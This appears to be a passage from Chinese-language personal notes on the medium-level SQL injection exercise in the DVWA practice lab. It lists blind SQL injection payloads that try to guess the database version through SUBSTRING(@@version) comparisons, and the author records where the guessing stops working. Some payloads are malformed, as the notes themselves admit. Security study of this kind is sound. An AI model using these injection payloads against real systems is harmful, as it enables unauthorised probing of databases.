 ```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,2)) = 10 &Submit=Submit
```

false

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,2)) = 12 &Submit=Submit
```

...

理論上應該是可以猜出 DB 的本版

知道是因為 post dada 被視為字串後，就可以知道為什麼這邊可以寫 `10.` 而不會噴錯了

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,3)) = 10.);&Submit=Submit
```

### 卡關 QQ

但如果再增加下去 10.x.x 的判斷會無效，崩潰

換個環境再測 db 是 `5.7.34` ，也是第二個小數點之後無法正常判斷，頂多只能判斷到 5.7

```sql
id=1 AND (SELECT SUBSTRING((SELECT @@version),1,5)) = 10.10&Submit=Submit
```

```sql
id=1 AND (SELECT @@version) like 10.1.26-MariaDB-0+de&Submit=Submit
```

```sql
id=1 AND SELECT (SELECT @@version)) = 5.7.34&Submit=Submit
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2064.png)
